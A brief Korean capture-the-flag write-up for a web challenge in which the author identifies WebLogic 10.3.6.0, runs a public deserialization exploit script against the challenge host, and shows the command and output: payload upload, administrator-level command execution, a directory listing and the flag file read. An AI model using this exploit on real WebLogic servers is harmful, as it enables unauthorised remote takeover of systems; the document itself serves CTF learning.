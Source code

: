 ## Solve
- http://juwon1405.iptime.org:7001/console 에 접속을 하면 weblogic 10.3.6.0 버전을 사용하는 것을 알 수 있다.

- 구글링을 통해 weblogic의 취약점을 이용해 쉘을 얻는 스크립트코드를 발견했다.
따라서 실행을 시켜 서버의 권한을 얻을 수 있었고, C:\key.txt 를 읽었다. </br>
> https://github.com/hanc00l/weblogic_unserialize_exploit

</br>
**실행 명령어**
```
./weblogic.py -u juwon1405.iptime.org -p 7001 -os win -t exploit

```


</br>
## Result
```
~/machome/ctf/doubles_ctf/web-200-error/weblogic_unserialize_exploit/bin(master*) » ./weblogic.py -u juwon1405.iptime.org -p 7001 -os win -t exploit                stitch@certis
sending upload payload...
sending install payload...
execute "whoami"...
----------------------------------------
hezek-dns\administrator


----------------------------------------
exploit>dir C:\
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: E097-C9D7

 C:\ 디렉터리

2012-12-21  오후 07:58    <DIR>          ADFS
2012-12-21  오후 07:06                 0 AUTOEXEC.BAT
2015-12-16  오전 10:00    <DIR>          bea
2012-12-21  오후 07:06                 0 CONFIG.SYS
2012-12-21  오후 07:20    <DIR>          Documents and Settings
2012-12-21  오후 07:59    <DIR>          Inetpub
2017-03-25  오후 04:05                31 key.txt
2015-12-16  오전 09:56    <DIR>          Oracle
2012-12-21  오후 07:26    <DIR>          Program Files
2015-12-16  오후 02:13    <DIR>          WINDOWS
2012-12-21  오후 07:09    <DIR>          wmpub
               3개 파일                  31 바이트
               8개 디렉터리   4,545,699,840 바이트 남음


exploit>type C:\key.txt
weblogic_hacked!!_DoubleS1405!!


exploit>
```
